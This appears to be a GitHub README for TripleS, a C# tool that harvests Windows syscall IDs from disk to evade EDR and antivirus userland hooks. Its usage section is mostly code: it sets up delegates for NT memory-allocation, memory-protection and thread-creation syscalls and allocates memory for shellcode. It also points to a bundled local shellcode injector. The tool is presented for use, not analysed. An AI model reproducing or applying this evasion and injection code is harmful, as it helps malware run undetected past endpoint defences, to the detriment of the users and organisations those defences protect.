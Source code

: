 # TripleS - Extracting Syscall Stub, Modernized
TripleS or 3S is short for Syscall Stub Stealer. It freshly "steal" syscall stub straight from the disk. You can use TripleS for evading userland hooks from EDRs/AVs. TripleS doesnt invoke any unmanaged API, its all .NET's managed function. I should rename this program tho, since it doesnt use stubs anymore (v4), instead, it only collects syscall IDs.

## Usage
1. Create a new instance of TripleS
```
TripleS syscallstealer = new TripleS();
```
2. Prepare gate space
```
bool result = syscallstealer.PrepareGateSpace();
if (!result) {
    Console.WriteLine("Failed to prepare gate space!");
    return;
}
```
3. Collect all the syscalls
```
syscallstealer.CollectAllSyscalls(); // the syscall informations will be stored on the TripleS object
if (!syscallstealer.IsSyscallReady) {
    Console.WriteLine("Failed to collect syscall!");
    return;
}
```
4. Initialize the delegates
```
NTAVMDelegate NTAVM = (NTAVMDelegate)Marshal.GetDelegateForFunctionPointer(syscallstealer.GatePositionAddress, typeof(NTAVMDelegate));
NTCTEDelegate NTCTE = (NTCTEDelegate)Marshal.GetDelegateForFunctionPointer(syscallstealer.GatePositionAddress, typeof(NTCTEDelegate));
NTPVMDelegate NTPVM = (NTPVMDelegate)Marshal.GetDelegateForFunctionPointer(syscallstealer.GatePositionAddress, typeof(NTPVMDelegate));
NTWFSODelegate NTWFSO = (NTWFSODelegate)Marshal.GetDelegateForFunctionPointer(syscallstealer.GatePositionAddress, typeof(NTWFSODelegate));
```
5. Use it!
```
IntPtr ProcessHandle = new IntPtr(-1); // pseudo-handle for current process
IntPtr ShellcodeBytesLength = new IntPtr(ShellcodeBytes.Length);
IntPtr AllocationAddress = new IntPtr();
IntPtr ZeroBitsThatZero = IntPtr.Zero;
UInt32 AllocationTypeUsed = (UInt32)AllocationType.Commit | (UInt32)AllocationType.Reserve;
Console.WriteLine("[*] Allocating memory...");
syscallstealer.Gate(NTAVMHash); // dont forget to set the gate to your destination function ;)
NTAVM(ProcessHandle, ref AllocationAddress, ZeroBitsThatZero, ref ShellcodeBytesLength, AllocationTypeUsed, 0x04);
```
If you still confused, you can take a look at `Main` function from `UsageExample` class, its a local shellcode injector function with TripleS implemented. This code uses C# 5, so it can be compiled with the built-in CSC from Windows 10. 

## Note
- If you want to copy the code,Please dont forget to credit me.
- Github doesn't like my Sublime Text indentation settings, so if you see some "weirdness" on the indentation, Im sorry.
